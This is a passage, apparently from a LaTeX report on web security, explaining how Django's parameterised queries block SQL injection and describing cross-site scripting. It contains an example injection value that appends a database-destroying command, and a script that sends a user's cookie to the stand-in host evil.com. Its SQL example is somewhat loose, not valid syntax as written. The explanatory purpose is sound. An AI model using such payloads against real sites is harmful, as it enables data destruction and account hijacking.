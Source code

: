         Django prevents these forms of attacks mentioned by using the concept of {\slshape Prepared Statements}, or {\slshape Query Parameterisation}, which is an accepted way to prevent such attacks (\cite{amirtahmasebi2009survey}). In a `raw' SQL query, no distinction is made between SQL keywords, and strings. So in a statement such as this:
        \begin{lstlisting}[style=SQLStyle]
SELECT * FROM UserRecords2 WHERE WebCustomerID = 23\end{lstlisting}
        no distinction is made between keywords such as SELECT and FROM, and a string, 23. If therefore, a form on the website allowed a user to enter WebCustomerID, they can select all User Records related to that WebCustomerID, but they could also type something like {\slshape `\' \space ; DROP ALL DATABASES;--'}, then this would be interpreted by the database as follows:

        \begin{lstlisting}[style=SQLStyle]
SELECT * FROM UserRecords2 WHERE WebCustomerID = ''; 
DROP ALL DATABASES;
--'\end{lstlisting}

        It would see two separate commands, first find all records where WebCustomerID is an empty string, then erase everything. Clearly, this is a problem. Django's solution is to escape any string values in a syntax similar to the following:

        \begin{lstlisting}[style=SQLStyle]
`SELECT * FROM UserRecords2 WHERE WebCustomerID = \%s', id\end{lstlisting}

        The id value is therefore treated as a string, and the database will know not to execute the statement.

        \paragraph{Cross Site Scripting (XSS)}
        This works by a user injecting code into the website that is later executed inadvertently (\cite{di2004identifying}). As an example, in a newspaper website, a user could post comments, but within the comment, they might put something like the following in:
        \begin{lstlisting}[style=HTMLStyle]
<script>
    location.URL=`http://www.evil.com/' + document.cookie
</script>\end{lstlisting}
        Instead of the browser treating the above text as HTML markup, it would execute it as JavaScript code, sending the user's cookie to a third party, and from there, the hacker could access their account on that website.

